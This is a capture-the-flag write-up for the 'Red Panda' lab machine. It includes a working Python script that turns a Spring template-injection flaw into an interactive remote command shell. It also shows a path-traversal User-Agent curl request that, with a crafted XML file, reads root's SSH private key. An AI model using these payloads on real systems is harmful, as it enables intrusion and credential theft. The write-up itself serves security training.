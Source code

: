 ```yaml
---
title: Red Panda (Easy)
author: Carlos
date: 2023-02-10
categories: [Writeups, writeups-easy]
tags: [Writeups, writeups-easy]
---
```

<div align="center"><img src= "/writeimgs/redpanda/pandaicon.png"></div> 

<div></div>
<p> </p>
We start scanning ports with nmap

<img src= "/writeimgs/redpanda/red1.png">


Once the port scan is done, we observe that on port 8080, they have a website, we enter there and find a nice search engine for pandas:

<img src= "/writeimgs/redpanda/red2.png">

If we use the whatweb command, we can observe the technology that the web has:

<img src= "/writeimgs/redpanda/red3.png">

Knowing this we can use an example of <A HREF="https://github.com/swisskyrepo/PayloadsAllTheThings"> PayloadsAllTheThings </A> but it blocks the $

<img src= "/writeimgs/redpanda/red4.png">

However, we can use * which works in the same way.

<img src= "/writeimgs/redpanda/red5.png">

To perform this process in an automatic and simple way, we can use the following script:

```ruby
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```

We use the above mentioned script and get the user flag!

<img src= "/writeimgs/redpanda/red6.png">
<p>
<img src= "/writeimgs/redpanda/red7.png">
</p>
After searching through directories for a while we found credentials in MainController.java.

<img src= "/writeimgs/redpanda/red8.png">

We can use these credentials to connect via ssh:

<img src= "/writeimgs/redpanda/red9.png">

We will try to use the pspy to see what is running behind, for that we download it and upload it with:

<b> <i>scp pspy64 woodenk@10.10.11.170:/home/woodenk</i></b>

<img src= "/writeimgs/redpanda/red10.png">

Once pspy is uploaded, we give it permissions and run it:

<img src= "/writeimgs/redpanda/red11.png">

If we look with pspy at the system tasks, we see that root runs a script like woodenk.

<img src= "/writeimgs/redpanda/red12.png">

This may be a clue to be able to scale, because why, would you delete files with that extension? Reviewing again the file where we found credentials we see how it exports the xml.

<img src= "/writeimgs/redpanda/red13.png">

Also in another App.java file we can see how it handles the metadata, now it starts to make sense that it will delete files with those extensions, but also in the file it shows us how it handles the User-Agent.

Looking at this configuration we can inject in the "Artist" field, a path where the xml will be, this in any image that later we will upload to the machine.

<img src= "/writeimgs/redpanda/red14.png">

Next we will create in the home an xml file that points to the root id_rsa, this with the name defined in the image plus _creds.xml.

<img src= "/writeimgs/redpanda/red15.png">

Now we have to make a curl request with the format we saw in the file as User-Agent.

<b><i> curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg </i></b>

<img src= "/writeimgs/redpanda/red16.png">

Finally we will export the xml from /stats to take our file.

<img src= "/writeimgs/redpanda/red17.png">
<p> </p>
<img src= "/writeimgs/redpanda/red18.png">

After a few seconds if we check the xml it will have the root id_rsa.

<img src= "/writeimgs/redpanda/red19.png">

Now with this id_rsa, we can finally connect via ssh as root and get the much desired flag!

<img src= "/writeimgs/redpanda/red20.png">
